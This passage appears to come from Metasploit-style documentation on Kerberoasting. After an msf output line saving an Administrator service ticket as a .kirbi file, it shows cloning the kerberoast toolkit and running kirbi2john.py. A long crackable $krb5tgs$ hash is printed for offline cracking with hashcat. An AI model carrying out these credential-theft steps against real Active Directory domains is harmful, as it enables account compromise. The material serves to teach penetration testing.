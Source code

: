 ```msf
====================

   * Saved to file     : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
```

**Crack Kiwi's Service Tickets**

To crack the service ticket a number of tools can be used. In this example we'll use hashcat. First we need to convert
the ticket we retrieved in the `.kirbi` format to a format parsable by hashcat. The script **kirbi2john** is part of
[Tim Medin](https://twitter.com/TimMedin) [Kerberoast](https://github.com/nidem/kerberoast) toolkit is perfect for
this task.

First clone the repo then run the script against the `.kirbi` file.

```
msfuser@ubuntu:~/git$ git clone https://github.com/nidem/kerberoast.git
msfuser@ubuntu:~/git$ cd kerberoast
msfuser@ubuntu:~/git/kerberoast$ python3 kirbi2john.py ~/1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
3a1808746b35d0e99159553e3c81a9cd32a51e968a4b45ce3fcf08e5eac8d4551df10c9f1bd4572cc273d1bd154fc8fd1228d55cd39a90b64ec3117f
e0a1fb496d1be4042ccb2998d998fa3de8f50bcb04d3bf78e34be07d71310a3be829e24cb75c398847f960aefe9669534df26344beb6e7bbe628b7ac
fa957c4a67417546fc441b84aaee78a0e5256cc9dead287327ac7907af71e02b142027c9061515c72ef03c842d0f73754f9dffa434a26057df4c4434
71cd5bf76260469ea6f1c367a64ea02b01a2b9c2b83979911fc58fa8822c70877b72370078e3d7955fc2ade02acd2a803889a8c3a609f80f9beb45c0
981aba6bdbb208fa6ea2cc91814c8c4dd6e9287f4ef3b9e2b7febe07648c78ec25137e82bee0d99290a33fd3701953bd858fac15c6d1652f11cc75a6
e419cab7dec019e599eda3a76652475968bc2845fa6f02477efaecfd63e58fad817f1976adeda14b2c4c1508a84df1813e05368c3e07c9f656d5730d
848b86c59bf576f4c2505375b7d6934abf8a955b1a71d802026383cbd9005bf12f0664ffc25ebee8aef4b574dd93850d59fc16c5f9881e9b4f957c33
74724e4046c0fa4bc5ff16b9a960b4b6a2ede25bb18c617c2dbcfb3fd34a4cc3ee29fb0f6e6f43722ffc50ceddce55b2be1a53361d13c983980d3191
86c7dbd124a3c8f19560e88d0d858b0f5320738931bf2f32c1e893fbbadb92f7574128f6f36a0acab99023f79d857f15f0920a1a76b3a97e6282d4e6
c5ef30206444bc20da1a7d89d1007a97e75ffb9554cfeaf6757919a635dbdfcfd74d2eec8d5f83f109beb6e653a8c0e787ec039c7bb93d07a60e8bb4
b56d026e809a80e020875a3a382b367f28c0e41714bd5ef97da578956cba12ab1fbcd84a5313d2edc5f7c601c3c56860a347ab013f50e3f8e6167935
9db05e4014db38e21a814fe002ba14d17840aa053bbec3a6aadec31db50827168d24107486d373567c2969215c0decf639bc46b9968e43a79bc6f261
2544feb09908118615035f630e37b03cb04d9725d2085a28543575d91c361bf1b6a61837d6c34c8961df33d1b8b45963bf361d33e0ca2fa37b40e62b
6389ebb0ad4097036f4d6aa4598086313ea79d68f75301d5038783567c2fdcf25e2b459acdc867c64613fe84f3faf1fdb79fc6e05322b2175eec3b2e
84e3a8165f0af265d3ccd994712704516f0c78f76dd7c5c98f8fc8b9db1231f19c259bc7f078a86d4bc6cf06b8c4158dc41f48dd51b146d3fc63d2fd
f057e6644f838a944de0679ab3e8c6290d4d8004bd53570f61323eeb7c910c6546880a508172bf4ee2fa1c87748ec0e2e2f79e03e963affb593f1391
a62fdf2f29b792b1c0e7ece2645381a4284b56ddc525c842589eca39efa0466418c9bfb60df479015f4fac86d38575aad1f29674a12d873f8fc12415
b6ea7b2cb15c9d422f0f904a6af518f12c4e0e362093d8d33a47672973f6d70e80669666f37d6674ef8e2999c92fa38b5de8e266716bb182527bde17
36bcb926a6340ae92f8b338be2fe5fa3a757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2698d17fff4
f9f1ecd02102f5bbd222b039ca3e30fed4003be6b70b2e492c8ea5eee92439681d6af767547609a87d47b68ba7ca62dbe3e4bf74e081915ab15e4103
8839b74263ddbd087c90b6262dd5684e078068c28ccc0c115e3
```